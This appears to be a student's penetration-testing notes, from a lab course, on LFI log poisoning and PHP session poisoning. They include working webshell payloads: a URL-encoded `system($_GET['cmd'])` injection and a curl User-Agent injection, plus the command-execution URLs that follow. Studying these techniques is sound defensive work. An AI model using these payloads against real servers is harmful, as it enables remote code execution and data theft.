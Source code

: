 ```yaml
---
description: >-
  Writing PHP code in a field we control that gets logged into a log file (i.e.
  poison/contaminate the log file)
---
```


# Log Poisoning

For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.

any of the following functions with `Execute` privileges should be vulnerable to these attacks:

<table data-header-hidden><thead><tr><th width="350"></th><th width="143"></th><th width="114"></th><th></th></tr></thead><tbody><tr><td><strong>Function</strong></td><td><strong>Read Content</strong></td><td><strong>Execute</strong></td><td><strong>Remote URL</strong></td></tr><tr><td><strong>PHP</strong></td><td></td><td></td><td></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td>✅</td><td>✅</td><td>✅</td></tr><tr><td><code>require()</code>/<code>require_once()</code></td><td>✅</td><td>✅</td><td>❌</td></tr><tr><td><strong>NodeJS</strong></td><td></td><td></td><td></td></tr><tr><td><code>res.render()</code></td><td>✅</td><td>✅</td><td>❌</td></tr><tr><td><strong>Java</strong></td><td></td><td></td><td></td></tr><tr><td><code>import</code></td><td>✅</td><td>✅</td><td>✅</td></tr><tr><td><strong>.NET</strong></td><td></td><td></td><td></td></tr><tr><td><code>include</code></td><td>✅</td><td>✅</td><td>✅</td></tr></tbody></table>

### PHP Session Poisoning

* Most PHP webapp uses PHPSESSID cookies
* The cookie can hold user-related data on backend
* The details are stored in session files on back-end
* Session files are located at /var/lib/php/sessions/ (Linux)
* Session files are located at C:\Windows\Temp (windows)
* Name of the file is matched with PHPSESSIONID cookie with sess\_ prefix

To Poison we have to examine PHPSESSID session file and look for data we can control

<figure><img src="https://academy.hackthebox.com/storage/modules/23/rfi_cookies_storage.png" alt=""><figcaption><p><code>nhhv8i0o6ua4g88bkdl9u1fdsd</code></p></figcaption></figure>

```
LFI sesssion file
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

<figure><img src="https://academy.hackthebox.com/storage/modules/23/rfi_session_include.png" alt=""><figcaption><p>Included Example</p></figcaption></figure>

session file contains two values in above example.

`page` value is under our control, as we can control it through the `?language=` parameter

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_sess_rf21ahckiod8299llj499cs8j1
```

<figure><img src="https://academy.hackthebox.com/storage/modules/23/lfi_poisoned_sessid.png" alt=""><figcaption></figcaption></figure>

the session file contains `session_poisoning` instead of `es.php`, which confirms our ability to control the value of `page` in the session file

next step is to perform the `poisoning` step by writing PHP code to the session file.

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_rf21ahckiod8299llj499cs8j1&cmd=id
```

<figure><img src="https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png" alt=""><figcaption></figcaption></figure>

### Server Log Poisoning

* `Apache` and `Nginx` maintain log files( `access.log` and `error.log )`
* `access.log` contains info about all requests including `User-Agent`&#x20;
* As we can control `User-Agent` we can poison server logs
* Once poisoned, we LFI which we need read-access over log
* `Nginx` logs -> low priv can read (www-data)
* `Apache` logs -> high priv only (root / adm groups)
* Old `Apache` -> low priv can read

Apache logs -> /var/log/apache2/   C:\xampp\apache\logs\\

Nginx logs -> /var/log/nginx/   C:\nginx\log\\

If not in those locations then use [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for their locations

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

<figure><img src="https://academy.hackthebox.com/storage/modules/23/rfi_access_log.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/23/rfi_repeater_ua.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/23/rfi_cmd_repeater.png" alt=""><figcaption></figcaption></figure>

or curl

```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'
```

<figure><img src="https://academy.hackthebox.com/storage/modules/23/rfi_id_repeater.png" alt=""><figcaption><p>c85ee5082f4c723ace6c0796e3a3db09.txt</p></figcaption></figure>

```
http://64.227.34.226:32308/index.php?language=/var/lib/php/sessions/sess_rf21ahckiod8299llj499cs8j1&cmd=cat%20c85ee5082f4c723ace6c0796e3a3db09.txt
```
